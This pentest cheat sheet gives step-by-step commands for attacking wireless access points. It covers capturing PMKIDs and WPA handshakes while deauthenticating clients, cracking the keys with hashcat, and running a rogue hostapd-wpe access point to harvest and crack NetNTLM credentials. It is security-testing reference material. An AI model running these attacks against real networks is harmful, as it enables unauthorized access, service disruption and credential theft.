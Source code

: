 # __Network access via wireless access point__
>Author: Pieter Miske
---
### __Wireless based network attack methods:__
##### Capture PMKIDs or 3\-way handshakes from Wireless AP’s:
This technique can be used to capture handshakes between a client and a normal AP\. This requires that you either wait for a client to connect to the AP, or if a client has already connected, de\-authenticate the client from the AP and wait for them to re\-connect\.
>One of the following messages indicates a successful capture: \[FOUND HANDSHAKE AP\-LESS\] or \[FOUND AUTHORIZED HANDSHAKE\]\. 
- 1\. \(optional\) If using the Wifi Pineapple, login via ssh.
- 2\. Scan for nearby active AP’s \([hcxdumptool](https://github.com/ZerBea/hcxdumptool)\): `hcxdumptool -i wlan1 --do_rcascan`
- 3: Store target AP mac\-addresses in filter\.txt file: `echo <target mac address> > filter.txt`
- 4\. Perform the Client\-less PMKID Attack \(this will also automatically de\-authenticate all connected clients\) \([hcxdumptool](https://github.com/ZerBea/hcxdumptool)\):  `hcxdumptool -o test.pcapng -i wlan1 -c <AP channel> --filterlist_ap=filter.txt --filtermode=2 --enable_status=3`
- 5\. Converting and cracking wifi keys:
	- If captured \(normal\) WPA handshake:
		- 1\. Copy \.pcapng files to own machine
		- 2\. Convert \.pcapng to \.pcap file: `tshark -F pcap -r test.pcapng -w test.pcap`
		- 3\. Convert \.pcap to \.hccapx file \([hashcat\-utils](https://github.com/hashcat/hashcat-utils)\): `./cap2hccapx test.pcap test.hccapx`
		- 4\. Crack PSK hash: `hashcat -m 2500 -a 0 -w 3 test.hccapx </dir/wordlist>`
	- If captured EAPOL PMKID \(\[FOUND PMKID CLIENT\-LESS\] or \[FOUND PMKID\]\):
		- 1: Convert PMKID to readable hash format: `hcxpcaptool -z test.16800 test.pcapng`
		- 2\. Move the \.pcapng file to your machine
		- 3: Crack pmkid key: `hashcat -m 16800 -a 0 -w 3 pmkid_capture.16800 </dir/wordlist>`

##### _Capture NetNTLM hashes from WPA2 Enterprise WiFi AP:_
If protocols such as EAP\-MSCHAPv2 and EAP\-TTLS are used it may be possible to set up a malicious access point which accepts EAP authentication, and if the device or user enters their credentials they can be captured in the form of NetNTLM hashes\.
- 1\. Install HostAPDtool: `apt install hostapd-wpe python-jinja2`
- 2\. stop NetworkManager to prevent it interfering: `airmon-ng check kill`
- 3\. Setup the malicious AP via the configuration file: `nano /etc/hostapd-wpe/hostapd-wpe.conf`
- 4\. Start the malicious AP and wait until users connect: `hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf`
- 5\. Recover password from NetNTLM based hash: `hashcat -m 5500 <hash.txt> <wordlist.txt>`